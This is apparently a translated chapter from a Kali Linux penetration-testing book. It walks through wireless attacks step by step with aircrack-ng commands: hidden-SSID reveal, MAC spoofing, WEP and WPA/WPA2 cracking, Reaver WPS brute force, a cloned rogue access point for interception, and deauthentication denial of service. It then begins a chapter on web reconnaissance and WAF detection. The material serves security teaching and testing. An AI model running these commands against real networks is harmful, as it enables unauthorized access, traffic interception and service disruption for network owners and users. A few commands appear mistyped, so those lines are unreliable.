可以与 Kali 一起使用的最可靠的适配器是 ALFA NETWORK 卡，特别是**AWUS036NH**适配器，它支持无线 802.11 b、g 和 n 协议。Alfa 卡在网上很容易获得，并将支持使用 Kali 进行的所有测试和攻击。

# 无线侦察

进行无线攻击的第一步是进行侦察——这将确定确切的目标接入点，并突出显示可能影响测试的其他无线网络。

如果您使用 USB 连接的无线网卡连接到 Kali 虚拟机，请确保 USB 连接已从主机操作系统断开，并通过单击 USB 连接图标将其连接到 VM，该图标在以下截图中由箭头表示：


接下来，通过从命令行运行`iwconfig`来确定可用的无线接口，如下截图所示：


对于某些攻击，您可能希望增加适配器的功率输出。如果您与合法的无线接入点共处，并且希望目标连接到您控制的虚假接入点而不是合法接入点，则这是非常有用的。这些虚假的，或**流氓**，接入点允许攻击者拦截数据并根据需要查看或更改数据以支持攻击。攻击者经常会复制或克隆一个合法的无线站点，然后增加其传输功率以吸引受害者。要增加功率，使用以下命令：

```
kali@linux:~# iwconfig wlan0 txpower 30

```

许多攻击将使用`aircrack-ng`及其相关工具进行。首先，我们需要能够拦截或监视无线传输；因此，我们需要使用`airmon-ng`命令将 Kali 通信接口设置为*监视模式*：

```
kali@linux:~# airmon-ng start wlan0

```

执行上一个命令的结果显示在以下截图中：


请注意，返回的描述表明有一些进程*可能会引起麻烦*。处理这些进程的最有效方法是使用全面的 kill 命令，如下所示：

```
root@kali:~# airmon-ng check kill

```

要查看本地无线环境，请使用以下命令：

```
root@kali:~# airodump-ng mon0

```

上一个命令列出了可以在特定时间点内在无线适配器范围内找到的所有已识别的网络。它提供了网络上无线节点的 BSSID，由 MAC 地址标识，相对输出功率的指示，发送的数据包信息，包括使用的信道的带宽信息，以及数据，加密使用的信息，以及 ESSID，提供了无线网络的名称。此信息显示在以下截图中；非必要的 ESSID 已被模糊处理：



`airodump`命令循环遍历可用的无线信道，并识别以下内容：

+   基本服务集标识符（BSSID），这是唯一的 MAC 地址，用于识别无线接入点或路由器。

+   每个网络的`PWR`或功率。虽然`airodump-ng`错误地显示功率为负，但这是一种报告工件。要获得正确的正值，请访问终端并运行`airdriver-ng unload 36`，然后运行`airdriver-ng load 35`。

+   `CH`显示正在使用的信道。

+   `ENC`显示正在使用的加密——如果没有使用加密，则为`OPN`或开放，如果使用了加密，则为`WEP`或`WPA`/`WPA2`。`CIPHER`和`AUTH`提供额外的加密信息。

+   扩展服务集标识符（ESSID）是由共享相同 SSID 或名称的接入点组成的无线网络的通用名称。

在终端窗口的下部，您将看到试图连接或已连接到无线网络的站点。

在我们可以与任何这些（潜在的）目标网络进行交互之前，我们必须确认我们的无线适配器是否能够进行数据包注入。为此，请从终端 shell 提示符运行以下命令：

```
root@kali:~# aireplay-ng -9 mon0

```

上一个命令的执行显示在以下截图中。这里的`-9`表示注入测试。


## Kismet

无线侦察最重要的工具之一是 Kismet，这是一个 802.11 无线侦测器、嗅探器和入侵检测系统。

Kismet 可用于收集以下信息：

+   无线网络的名称，ESSID

+   无线网络的信道

+   接入点的 MAC 地址，BSSID

+   无线客户端的 MAC 地址

它还可以用于嗅探 802.11a、802.11b、802.11g 和 802.11n 无线流量的数据。Kismet 还支持插件，允许它嗅探其他无线协议。

要启动 Kismet，请在终端窗口的命令提示符中输入`kismet`。

启动 Kismet 时，您将面临一系列问题，这些问题将允许您在启动过程中对其进行配置。回答“是”以“您能看到颜色”，接受“Kismet 正在以 root 身份运行”，并选择“是”以“启动 Kismet 服务器”。在 Kismet 启动选项中，取消选中“显示控制台”，因为它会遮挡屏幕。允许 Kismet 启动。

您将被提示添加一个捕获接口；通常会选择`wlan0`。

Kismet 然后将开始嗅探数据包，并收集有关所有位于附近物理邻域的无线系统的信息。


通过双击选择一个网络，将带您进入一个网络视图，提供有关无线网络的其他信息。

您还可以深入了解连接到各种无线网络的特定客户端。

使用 Kismet 作为初始侦察工具来启动一些特定的攻击（如嗅探传输数据）或识别网络。因为它 passively 收集连接数据，所以它是一个用于识别隐藏网络的优秀工具，特别是当 SSID 没有公开传输时。

# 绕过隐藏的服务集标识符

ESSID 是唯一标识无线局域网的字符序列。隐藏 ESSID 是一种试图通过“安全性通过混淆”来实现安全性的不良方法；不幸的是，ESSID 可以通过以下方式获得：

+   嗅探无线环境并等待客户端关联到网络，然后捕获该关联

+   主动去认证客户端以强制客户端关联，然后捕获该关联

`aircrack`工具特别适合捕获解除隐藏 ESSID 所需的数据，如以下步骤所示：

1.  在命令提示符下，通过输入以下命令确认攻击系统上已启用无线功能：

```
root@kali:~# airmon-ng

```

1.  接下来，使用以下`ifconfig`命令来查看可用的接口，并确定您的无线系统使用的确切名称：

```
root@kali:~# ifconfig

```

1.  通过输入以下内容启用您的无线接口（您可能需要用前一步骤中识别的可用无线接口替换`wlan0`）：

```
root@kali:~# airmon-ng start wlan0

```

1.  如果您使用`ifconfig`重新确认，您将看到现在正在使用监视或`mon0`地址。现在，使用`airodump`确认可用的无线网络，如以下命令所示：

```
root@kali:~# airodump-ng mon0

```


正如您所看到的，第一个网络的 ESSID 只被标识为`<length: 9>`。没有使用其他名称或标识。隐藏的 ESSID 的长度被确定为由九个字符组成；然而，这个值可能不正确，因为 ESSID 是隐藏的。真正的 ESSID 长度可能比九个字符短或长。

重要的是可能有客户端连接到这个特定的网络。如果有客户端存在，我们将去认证客户端，迫使他们在重新连接到接入点时发送 ESSID。

重新运行`airodump`，并过滤出除目标接入点以外的所有内容。在这种特殊情况下，我们将专注于使用以下命令从第六信道的隐藏网络收集数据：

```
root@kali:~# airodump-ng -c 6 mon0

```

执行该命令会删除来自多个无线源的输出，并允许攻击者专注于目标 ESSID，如以下屏幕截图所示：


执行`airodump`命令时得到的数据表明，有一个站点（`00:0E:2E:CF:8C:7C`）连接到 BSSID（`00:18:39:D5:5D:61`），后者又与隐藏的 ESSID 相关联。

要捕获 ESSID 在传输时，我们必须创建一个条件，在这种条件下我们知道它将被发送——在客户端和接入点之间的连接的初始阶段。

因此，我们将向客户端和接入点发动去认证攻击，发送一系列数据包，打破它们之间的连接，迫使它们重新认证。

要发动攻击，打开一个新的命令窗口，并输入以下屏幕截图中显示的命令（`0`表示我们正在发动去认证攻击，`10`表示我们将发送 10 个去认证数据包，`-a`是目标接入点，`c`是客户端的 MAC 地址）：


在发送所有去认证数据包后，返回到监视第六信道上的网络连接的原始窗口，如以下屏幕截图所示。您现在将清楚地看到 ESSID。


知道 ESSID 有助于攻击者确认他们正在专注于正确的网络（因为大多数 ESSID 都基于公司身份）并促进登录过程。

# 绕过 MAC 地址认证

**媒体访问控制**（**MAC**）地址在网络中唯一标识每个节点。它采用六对十六进制数字（0 到 9 和字母 A 到 F）的形式，由冒号或破折号分隔，通常看起来像这样：`00:50:56:C0:00:01`。

MAC 地址通常与网络适配器或具有网络功能的设备相关联；因此，它经常被称为物理地址。

MAC 地址中的前三对数字称为**组织唯一标识符**，它们用于识别制造或销售设备的公司。最后三对数字是特定于设备的，并且可以被视为*序列号*。

因为 MAC 地址是唯一的，它可以用来将用户与特定网络关联起来，特别是无线网络。这有两个重要的含义——它可以用来识别黑客或试图访问网络的合法网络测试人员，并且可以用作认证个人并授予他们对网络的访问权限的手段。

在渗透测试期间，测试人员可能希望对网络保持匿名。支持匿名配置的一种方法是更改攻击系统的 MAC 地址。

这可以通过使用`ifconfig`命令手动完成。要确定现有的 MAC 地址，请从命令行运行以下命令：

```
root@kali:~# ifconfig wlan0 down
root@kali:~# ifconfig wlan0 | grep HW

```

手动更改 IP 地址，请使用以下命令：

```
root@kali:~# ifconfig wlan0 hw ether 38:33:15:xx:xx:xx
root@kali:~# ifconfig wlan0 up

```

用不同的十六进制对替换“xx”表达式。这个命令将允许我们将攻击系统的 MAC 地址更改为受害者网络接受的 MAC 地址之一。攻击者必须确保 MAC 地址在网络上尚未被使用，否则重复的 MAC 地址可能会在网络被监视时触发警报。

### 注意

在更改 MAC 地址之前，无线接口必须被关闭。

Kali 还允许使用自动化工具`macchanger`。要将攻击者的 MAC 地址更改为由同一供应商生产的产品的 MAC 地址，请在终端窗口中使用以下`macchanger`命令：

```
root@kali:~# macchanger wlan0 -e

```

要将现有的 MAC 地址更改为完全随机的 MAC 地址，请使用以下命令：

```
root@kali:~# macchanger wlan0 -r

```


一些攻击者使用自动化脚本在测试期间频繁更改 MAC 地址，以匿名化他们的活动。

许多组织，特别是大型学术团体，如学院和大学，使用 MAC 地址过滤来控制谁可以访问他们的无线网络资源。MAC 地址过滤使用网络卡上的唯一 MAC 地址来控制对网络资源的访问；在典型的配置中，组织维护一个 MAC 地址的**白名单**，允许访问网络的 MAC 地址。如果传入的 MAC 地址不在批准的访问列表上，它将被限制连接到网络。

不幸的是，MAC 地址信息是明文传输的。攻击者可以使用`airodump`收集一系列被接受的 MAC 地址，然后手动将他们的 MAC 地址更改为目标网络接受的地址之一。因此，这种类型的过滤几乎不提供对无线网络的真正保护。

使用加密提供了下一级别的无线网络保护。

# 破解 WEP 加密

**无线等效隐私**（**WEP**）始于 1999 年，旨在为 802.11 无线网络提供与有线网络相媲美的保密度。在其加密实现中很快发现了多个缺陷，到 2004 年被**WiFi 保护访问**（**WPA**）协议取代。

### 注意

WEP 至今仍在使用，特别是在无法支持新无线路由器资源需求的旧网络中。在最近对一个主要大都市中心的无线调查中，几乎 25%的加密无线网络继续使用 WEP。其中许多网络与金融公司相关。

WEP 的主要缺陷之一是在**初始化向量**（**IV**）的重用中首次被发现。WEP 依赖于 RC4 加密算法，这是一种流密码——相同的加密密钥不能重复使用。IV 被引入以防止密钥重用，通过在加密数据中引入一定程度的*随机性*。不幸的是，24 位 IV 太短，无法防止重复；此外，同一个 IV 在传输了仅 5000 个数据包后就有 50%的概率重复。

攻击者可以窃听或拦截 WEP 加密的流量。根据可用于检查的拦截数据包数量，密钥恢复可能会很快发生。实际上，大多数 WEP 密钥可以在三分钟内恢复或*破解*。

要使 WEP 破解起作用，您还需要了解有关目标的以下信息：

+   无线网络的名称或 ESSID

+   接入点的 MAC 地址，BSSID

+   使用的无线频道

+   无线客户端的 MAC 地址

对 WEP 的最常见攻击可以通过执行以下步骤来完成：

1.  首先，使用以下命令识别可用的无线网络接口：

```
root@kali:~# airmon-ng

```

1.  停止接口以更改 MAC 地址为已与目标网络关联的现有客户端正在使用的地址。您还可以在此步骤中使用`macchanger`。当 MAC 地址已更改时，重新启动`airmon-ng`。使用以下命令执行这些步骤：

```
root@kali:~# airmon-ng stop
root@kali:~# ifconfig wlan0 down
root@kali:~# ifconfig wlan0 hw ether (mac address)
root@kali:~# airmon-ng start wlan0

```

使用已知和接受的 MAC 地址简化了攻击。然而，情况并非总是如此。这种攻击假设您*不*知道 MAC 地址。相反，我们将与网络进行虚假关联。

1.  使用以下`airodump`命令来定位目标无线网络：

```
root@kali:~# airodump-ng wlan0

```

当`airodump`定位到目标时，按下*Ctrl* + *C*停止搜索。复制 BSSID 中的 MAC 地址，并记下频道。当`airodump`定位到目标时，按下*Ctrl* + *C*停止搜索。复制 BSSID 中的 MAC 地址，并记下频道；在下面截图中显示的示例中，目标网络`dd_wep`在速度为 11 MB 的第六频道上运行。


1.  启动`airodump-ng`以嗅探无线流量并使用以下命令收集 IV 数据包，其中`--bssid`允许我们选择目标的 BSSID，`-c`表示频道，`-w`允许我们写入输出文件的名称（`wep_out`）：

```
root@kali:~# airodump-ng --bssid 00:06:25:9A:A9:C6 -c 6 -w
  wep_out wlan0 

```

1.  现在我们必须增加传输的 IV 数据包数量。打开第二个终端窗口（不要关闭第一个）并输入以下命令，对目标无线接入点进行虚假认证：

```
root@kali:~# aireplay-ng -1 0 -a 00:06:25:9A:A9:C6 -h 
  00:11:22:33:44:55 -e dd_wep wlan0 

```

这里，`-1`表示虚假认证，`0`是重新关联的时间（设置为`0`可能会引起防御者的警觉，因此攻击者可能将其设置为 30 甚至更高）。

1.  在进行虚假认证后，我们将生成似乎来自受信任 MAC 地址的流量，并将其路由到目标无线接入点。

```
root@kali:~# aireplay-ng -3  -b 00:06:25:9A:A9:C6 -h 
  00:11:22:33:44:55 wlan0 

```

这种攻击被称为 ARP 注入或 ARP 重放攻击。通常，目标接入点将重新广播 ARP 数据包并每次生成一个新的 IV；因此，这是一种快速培育必要 IV 的方法。

先前命令的执行结果如下截图所示：


1.  让我们在 ARP 注入继续的同时生成一些额外的数据包。打开另一个终端窗口，并输入以下命令开始交互式数据包重放攻击：

```
root@kali:~# aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF 
  - b (mac address) -h (mac address) wlan0 

```

在这里，`-2`表示我们正在使用交互式重放攻击，`-p 0841`设置数据包的帧控制字段，使其看起来像是从无线客户端发送的，`-c FF:FF:FF:FF:FF:FF`设置目的地（在这种情况下，`FF`符号发送数据包到网络上的所有主机），`-b`是 BSSID 的 MAC 地址，`-h`是正在传输的数据包的 MAC 地址，应与测试者的 MAC 地址匹配。

先前命令的执行结果如下截图所示：


1.  使网络看起来繁忙的另一种技术是在攻击系统上打开多个命令 shell，并输入以下命令，将（`IP 地址`）替换为目标的 IP 地址：

```
root@kali:~# ping -T -L 6500 (IP address)

```

1.  收集并保存足够的数据包后，可以使用以下`aircrack-ng`命令来破解 WEP 密钥，其中`-a 1`强制攻击模式为静态 WEP，`-b`是 BSSID，`dd_wep.cap`是包含捕获的 IV 的捕获文件。

```
root@kali:~# aircrack-ng -a 1 -b 00:06:25:9A:A9:C6 -n 64 
  dd_wep.cap 

```

如下面的截图所示，攻击成功，并且密钥已被识别。（尽管它看起来是一个十六进制数，您只需输入它即可登录到 WEP 网络。）


尽管这个演示集中在 64 位密钥上，但一旦从访问点收集了 IVs，更长的密钥破解时间并不会显著增加。

`aircrack-ng`套件是“黄金标准”，提供了获得访问的最可靠和有效的方式。然而，Kali 还配备了其他几种工具，可以帮助您破解加密的无线网络。

其中一个是 Fern WiFi Cracker，它是一个集成了`aircrack-ng`的 Python GUI。它可以自动扫描无线网络并识别 WEP、WPA 和 WPA2 网络。一旦识别出网络，攻击者可以利用以下几个功能：

+   使用各种攻击来破解 WEP，包括分段、Chop Chop、Caffe Latte、Hirte、ARP 请求重放或 WPS 攻击

+   使用字典或基于 WPS 的攻击来破解 WPA 和 WPA2

+   成功破解后自动将密钥保存到数据库

+   内部中间人引擎支持会话劫持

+   对 HTTP、HTTPS、Telnet 和 FTP 进行暴力攻击

Fern 的界面非常干净，设置引导用户选择接口并扫描访问点。它将报告 WEP 和 WPA/WPA2 的访问点；从这一点开始，只需点击适当的按钮启动攻击。Fern 的初始启动界面如下截图所示：



尽管 Fern 是一个很好的工具，但大多数测试人员并不完全依赖它——如果无法识别密钥或无法访问网络，失败的原因可能隐藏在 GUI 背后，使故障排除变得困难。

类似的应用程序是 Wifite 无线审计员，它提供了一个基于文本的界面来支持测试。在现场测试中已被证明非常有效，并利用了以下功能：

+   Wifite 通过在攻击之前将攻击者的 MAC 地址更改为随机 MAC 地址来支持匿名，并在所有攻击完成后将其改回来

+   按信号强度（以 dB 为单位）对目标进行排序，以首先破解最近的访问点

+   自动使隐藏网络的客户端脱机以显示 SSID

+   支持多种攻击类型

在下面的截图中显示的示例中，选择了一个名为`dd_wep`的单个目标进行攻击。不需要与应用程序进行任何其他交互；它完成了完全的破解并将破解的密钥保存到数据库中。


尽管已经有一些基本工具可以在 Kali 上使用来证明已经废弃的 WEP 的漏洞，但更强大的 WPA 加密协议能经受住多大的攻击呢？

# 攻击 WPA 和 WPA2

**WiFi Protected Access**（**WPA**）和**WiFi Protected Access 2**（**WPA2**）是旨在解决 WEP 安全缺陷的无线安全协议。因为 WPA 协议为每个数据包动态生成新密钥，它们防止了导致 WEP 失败的统计分析。然而，它们对一些攻击技术是脆弱的。

WPA 和 WPA2 经常使用**预共享密钥**（**PSK**）来保护接入点和无线客户端之间的通信。PSK 应该是至少 13 个字符长的随机密码；如果不是，就有可能通过将 PSK 与已知字典进行比较来确定 PSK，使用暴力破解攻击。这是最常见的攻击方式。（请注意，如果配置为企业模式，提供使用 RADIUS 认证服务器进行认证，从我们的角度来看，WPA 是“无法破解”的！）

## 暴力破解攻击

与 WEP 不同，WPA 解密需要攻击者创建特定的数据包类型，以揭示细节，例如接入点和客户端之间的握手。

要攻击 WPA 传输，应执行以下步骤：

1.  启动无线适配器，并使用`ifconfig`命令确保创建了监视接口。

1.  使用`airodump-ng –wlan0`来识别目标网络。

1.  使用以下命令开始捕获目标接入点和客户端之间的流量：

```
root@kali:~# airodump-ng --bssid 28:10:7B:61:20:32 -c 11 
  --showack -w dd_wpa2 wlan0 

```

将`-c`设置为监视特定频道，`--showack`标志以确保客户端计算机确认您的请求将其从无线接入点去认证，并将`-w`用于将输出写入文件以供以后进行字典攻击。这种攻击的典型输出如下截图所示：


1.  保持这个终端窗口打开，并打开第二个终端窗口来发起去认证攻击；这将迫使用户重新对目标接入点进行认证并重新交换 WPA 密钥。去认证攻击命令如下所示：

```
root@kali:~# aireplay-ng -0 10 –a 28:10:7B:61:20:32 
  -c 00:1D:60:7D:55:5A wlan0 

```

上一个命令的执行结果如下截图所示：


成功的去认证攻击将显示`ACKs`，表明连接到目标接入点的客户端已确认刚刚发送的去认证命令。

1.  查看原始命令行，保持打开以监视无线传输，并确保捕获 4 次握手。成功的 WPA 握手将在控制台的右上角标识。在下面的示例中，数据表明 WPA 握手值为`28:10:7B:61:20:32`：

1.  使用`aircrack`来破解 WPA 密钥，使用定义的单词列表。攻击者为收集握手数据定义的文件名将位于根目录中，并且将附加`-01.cap`扩展名。

在 Kali 中，单词列表位于`/usr/share/wordlists`目录中。虽然有几个单词列表可用，但建议您下载更有效地破解常见密码的列表。

在上面的示例中，密钥已经预先放置在密码列表中。对于长、复杂的密码进行字典攻击可能需要几个小时，具体取决于系统配置。以下命令使用`words`作为源单词列表。

```
root@kali:~# aircrack-ng wpa-01.cap /usr/share/wordlists

```

以下截图显示了成功破解 WPA 密钥的结果；经过 44 个密钥的测试，发现网络管理员的密钥是`princessmouse`。


如果你手头没有自定义密码列表或希望快速生成一个列表，你可以在 Kali 中使用 crunch 应用程序。以下命令指示 crunch 使用给定的字符集创建一个最小长度为 5 个字符、最大长度为 25 个字符的单词列表：

```
root@kali:~# crunch 0 25
  abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWX
  YZ0123456789 | aircrack-ng --bssid (MAC address) 
  -w capture-01.cap 

```

您还可以使用基于 GPU 的密码破解工具（oclHashcat 用于 AMD/ATI 显卡，cudaHashcat 用于 NVIDIA 显卡）来提高暴力破解攻击的效果。

要执行此攻击，首先使用以下命令将 WPA 握手捕获文件`psk-01.cap`转换为 hashcat 文件：

```
root@kali:~# aircrack-ng psk-01.cap -J <output file>

```

转换完成后，使用以下命令对新的捕获文件运行 hashcat（选择与您的 CPU 架构和图形卡匹配的 hashcat 版本）：

```
root@kali:~# cudaHashcat-plus32.bin -m 2500 <filename>.hccap<wordlist>

```

## 使用 Reaver 攻击无线路由器

WPA 和 WPA2 也容易受到对接入点的 Wi-Fi 受保护设置（WPS）和 PIN 码的攻击。

大多数接入点支持**Wi-Fi 受保护设置**（**WPS**）协议，该协议于 2006 年成为标准，允许用户轻松设置和配置接入点，并将新设备添加到现有网络，而无需重新输入大而复杂的密码。

不幸的是，PIN 码是一个 8 位数字（100,000,000 种可能的猜测），但最后一个数字是一个校验和值。因为 WPS 认证协议将 PIN 码分成两半并分别验证每一半，这意味着第一半 PIN 码有 10⁴（10,000）个值，第二半有 10³（1,000）个可能的值——攻击者只需最多猜测 11,000 次就能破坏接入点！

Reaver 是一个旨在最大化猜测过程的工具（尽管 Wifite 也进行 WPS 猜测）。

要启动 Reaver 攻击，使用一个名为`wash`的伴侣工具来识别任何易受攻击的网络，如以下命令所示：

```
root@kali:~# wash -i wlan0 --ignore-fcs

```

如果有任何易受攻击的网络，使用以下命令对它们发动攻击：

```
root@kali:~# reaver -i wlan0 -b (BBSID) -vv

```

在 Kali 中测试这种攻击表明，攻击速度慢，容易失败；然而，它可以用作后台攻击或补充其他攻击路径来破坏 WPA 网络。

# 克隆接入点

对无线网络的一种更有趣的攻击依赖于克隆接入点，然后监视用户尝试连接时传输的信息。攻击者不仅可以获得认证凭据，还可以利用中间人攻击来拦截或重定向网络流量。

Kali 中包含的几个工具声称支持克隆或制造伪造接入点；然而，目前这些工具存在缺陷。例如，社会工程工具包和 Websploit 不与 Kali 预装的 DHCP 服务器集成。

大多数攻击者寻找外部工具，包括 Gerix 或 easy-creds 等脚本；然而，`aircrack-ng`套件也包括一个工具。`airbase-ng`，用于克隆接入点。

为了制作一个假的无线接入点，攻击者将：

1.  启动`wlan0`进入监视模式，这将创建一个用于监视的`mon0`接口，使用以下命令：

```
root@kali:~# airmon-ng start wlan0

```

1.  使用以下命令在`mon0`上设置接入点（AP）。社会工程学对 AP 的成功有重大影响，因此使用一个能吸引目标客户的名称。在这个例子中，我们将使用一个通用的开放式 Wi-Fi 网络名称。它将在 WiFi 频道六上建立：

```
root@kali:~# airbase-ng --essid Customer_Network 
  -c 6 mon0 

```

1.  使用以下命令安装桥接工具：

```
apt-get install bridge-utils

```

1.  在另一个终端窗口中，使用桥接工具创建一个桥接（`rogue`），并将`at0`（`at0`接口是由前一个命令创建的）链接到`eth0`（请注意，必须首先使用`apt-get install bridge-utils`安装桥接工具）。

```
root@kali:~# brctl addbr rogue
root@kali:~# brctl addif rogue at0
root@kali:~# brctl addif rogue eth0

```

因为这两个接口被集成到虚拟桥中，你可以使用以下命令释放它们的 IP 地址：

```
root@kali:~# ifconfig at0 down
root@kali:~# ifconfig at 0.0.0.0 up
root@kali:~# ifconfig eth0 down
root@kali:~# ifconfig eth0 0.0.0.0 up

```

1.  使用以下命令启用桥接上的 IP 转发：

```
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward

```

1.  使用以下命令配置桥接到连接到`eth0`的 LAN 的 IP 地址：

```
root@kali:~# ifconfig rogue 10.1.x.y netmask 255.255.255.0 broadcast 10.1.x.255 up
root@kali:~# route add default gw 10.1.x.1

```

1.  使用以下命令启动 AP 以嗅探认证握手：

```
airbase-ng -c 6 -e --ESSID /file_path/file.cap wlan0

```

# 拒绝服务攻击

我们将评估对无线网络的最终攻击是拒绝服务攻击，攻击者剥夺合法用户访问无线网络或通过使网络崩溃使其不可用。无线网络极易受到 DoS 攻击的影响，并且很难在分布式无线网络上定位攻击者。DoS 攻击的例子包括以下内容：

+   向无线网络注入制作的网络命令，如重新配置命令，可以导致路由器、交换机和其他网络设备的故障。

+   一些设备和应用程序可以识别正在发生的攻击，并将自动响应以禁用网络。一个恶意的攻击者可以发动一个明显的攻击，然后让目标自己创建 DoS！

+   用数据包的洪水攻击无线网络可以使其无法使用；例如，一个 HTTP 洪水攻击向 Web 服务器发出数千个页面请求，可以耗尽其处理能力。同样，用认证和关联数据包淹没网络会阻止用户连接到接入点。

+   攻击者可以制作特定的去认证和去关联命令，这些命令用于关闭无线网络上的授权连接，并淹没网络，阻止合法用户维持与无线接入点的连接。

为了证明这一点，我们将通过向网络发送去认证数据包来制造一个拒绝服务攻击。因为无线 802.11 协议是建立在接收到特定数据包时支持去认证的基础上的（这样用户可以在不再需要连接时断开连接），这可能是一个毁灭性的攻击——它符合标准，没有办法阻止它发生。

“撞”一个合法用户离开网络的最简单方法是用一连串的去认证数据包来攻击他们。可以使用`aircrack-ng`工具套件的以下命令来实现这一点：

```
root@kali:~# aireplay-ng -0 0 -a (bssid) -c wlan0

```

这个命令将攻击类型标识为`-0`，表示这是一个去认证攻击。第二个`0`（零）会发出一连串的去认证数据包，使网络对其用户不可用。

Websploit 框架是一个用于扫描和分析远程系统的开源工具。它包含了几个工具，包括专门用于无线攻击的工具。要启动它，打开命令行，然后简单地输入`websploit`。

Websploit 界面类似于`recon-ng`和 Metasploit Framework，并为用户提供了模块化界面。

启动后，使用`show modules`命令查看现有版本中存在的攻击模块。使用`use wifi/wifi_jammer`命令选择 WiFi 干扰器（一连串的去认证数据包）。如下截图所示，攻击者只需使用`set`命令设置各种选项，然后选择`run`来发动攻击。


# 总结

在本章中，我们研究了对无线网络成功攻击所需的几个管理任务，包括选择无线适配器、配置无线调制解调器，并使用诸如 aircrack-ng Kismet 等工具进行侦察。我们专注于使用`aircrack-ng`工具套件来识别隐藏网络、绕过 MAC 认证以及破解 WEP 和 WPA/WPA2 加密。我们还看到了如何克隆或复制无线接入点，以及如何对无线网络进行拒绝服务攻击。

下一章将重点介绍攻击者如何针对网站及其服务。我们将研究用于侦察的工具，特别是客户端代理和漏洞扫描器。我们将看到攻击者如何利用这些漏洞与自动化工具，如利用框架和在线密码破解。更重要的是，我们将研究一些通常需要手动干预的离散攻击，例如注入攻击和跨站脚本。最后，我们将探讨在线服务的特殊性，以及它们为何以及如何容易受到 DoS 攻击的影响。

# 第九章：对基于 Web 的应用程序的侦察和利用

在前几章中，我们审查了攻击者的杀伤链——用于破坏网络和设备、披露数据或阻碍对网络资源的访问的具体方法。在第七章中，*物理攻击和社会工程*，我们研究了攻击的途径，从物理攻击和社会工程开始。在第八章中，*利用无线通信*，我们看到了无线网络如何被 compromise。在本章中，我们将重点关注通过网站和基于 Web 的应用程序的最常见的攻击途径之一。

提供内容和基于 Web 的服务（例如电子邮件和 FTP）的网站是无处不在的，大多数组织几乎始终允许远程访问这些服务。然而，对于渗透测试人员和攻击者来说，网站暴露了发生在网络上的后端服务，访问网站的用户的客户端活动以及用户与网站数据之间的连接频繁攻击。本章将重点关注攻击者对网站和 Web 服务的视角，我们将在第十章中审查对连接的攻击，*利用远程访问通信*和第十一章中的客户端攻击，*客户端利用*。

到本章结束时，您将学到以下内容：

+   将侦察原则扩展到 Web 服务

+   漏洞扫描

+   使用客户端代理

+   利用 Web 服务中的漏洞

+   使用 Web 后门维持对受损系统的访问

### 提示

在许多练习中，我们将使用 NOWASP 或 Mutillidae 作为目标网站，该网站包含可以利用的已知漏洞；它可以从[www.owasp.org/index.php/Category:OWASP_Mutillidae](http://www.owasp.org/index.php/Category:OWASP_Mutillidae)下载。这个 Web 应用程序可以直接安装到 Linux 或 Windows 上，使用 LAMP、WAMP 和 XAMPP。它也预先安装在 SamauraiWTF 和 Metasploitable 测试环境中。请参考附录，*安装 Kali Linux*，了解创建 Metasploitable 测试环境的说明。

# 对网站进行侦察

网站及其服务的交付特别复杂。通常，服务是使用多层架构交付给最终用户的，其中 Web 服务器可以被公共互联网访问，同时与位于网络上的后端服务器和数据库进行通信。

测试期间必须考虑的几个额外因素增加了复杂性，其中包括以下内容：

+   网络架构，包括安全控制（防火墙、IDS/IPS 和蜜罐）和负载平衡等配置

+   平台架构（硬件、操作系统和附加应用程序）托管 Web 服务的系统

+   应用程序、中间件和最终层数据库可能采用不同的平台（Unix 或 Windows）、供应商、编程语言和商业和专有软件的混合

+   认证和授权流程，包括在应用程序中维护会话状态的流程

+   规定应用程序将如何使用的基础业务逻辑

+   客户端与网络服务的交互和通信

鉴于网络服务的复杂性已经得到证明，渗透测试人员需要适应每个站点特定的架构和服务参数。同时，测试过程必须一贯应用，并确保没有遗漏。已经提出了几种方法来实现这些目标。最广泛接受的方法是开放式 Web 应用安全项目（OWASP）（[www.owasp.org](http://www.owasp.org)）及其十大漏洞清单。

作为最低标准，OWASP 为测试人员提供了强有力的指导。然而，仅关注十大漏洞是短视的，该方法在发现应用程序应如何支持业务实践的逻辑漏洞时已经表现出一些缺陷。

使用杀链方法，一些特定于网络服务侦察的活动应该被突出，包括以下内容：

+   确定目标站点，特别是关于它的托管位置和方式。

+   列举目标网站的站点目录结构和文件，包括确定是否使用内容管理系统（CMS）。这可能包括下载网站进行离线分析，包括文档元数据分析，并使用网站创建用于密码破解的自定义字典（使用 crunch 等程序）。还要确保所有支持文件也被识别。

+   识别认证和授权机制，并确定在与该网络服务进行交易时如何维护会话状态。这通常涉及对 cookie 的分析以及它们的使用方式。

+   列举所有表单。由于这些是客户端输入数据和与网络服务交互的主要手段，这些是一些可利用的漏洞的特定位置，比如 SQL 注入攻击和跨站脚本。

+   识别其他接受输入的区域，比如允许文件上传的页面以及对接受的上传类型的任何限制。

+   确定如何处理错误，以及用户收到的实际错误消息；通常，错误会提供有价值的内部信息，比如使用的软件版本，或者内部文件名和进程。

+   确定哪些页面需要并维护安全套接字层或其他安全协议（参见第十章，“利用远程访问通信”）。

第一步是进行先前描述的被动和主动侦察（参见第二章，“确定目标-被动侦察”和第三章，“主动侦察和漏洞扫描”）；特别是确保识别托管站点，然后使用 DNS 映射来识别由同一服务器提供的所有托管站点（攻击的最常见和成功的手段之一是攻击与目标网站托管在同一物理服务器上的非目标站点，利用服务器的弱点获取根访问权限，然后使用升级后的权限攻击目标站点）。

下一步是识别网络防护设备的存在，比如防火墙、IDS/IPS 和蜜罐。一个越来越常见的防护设备是 Web 应用防火墙（WAF）。

如果使用了 WAF，测试人员将需要确保攻击，特别是依赖精心制作的输入的攻击，被编码以绕过 WAF。

WAF 可以通过手动检查 cookie（一些 WAF 会标记或修改在 Web 服务器和客户端之间通信的 cookie），或者通过头信息的更改（当测试人员使用 Telnet 等命令行工具连接到端口 80 时识别）来识别。

WAF 检测的过程可以使用`nmap`脚本`http-waf-detect.nse`自动化，如下截图所示：


nmap 脚本识别出 WAF 的存在；然而，对脚本的测试表明，它在发现方面并不总是准确的，返回的数据可能过于一般化，无法指导有效的绕过防火墙的策略。

wafw00f 脚本是一个自动化工具，用于识别和指纹 Web 防火墙；测试表明，它是最准确的工具。该脚本可以轻松从 Kali 中调用，并在以下截图中显示了大量输出：


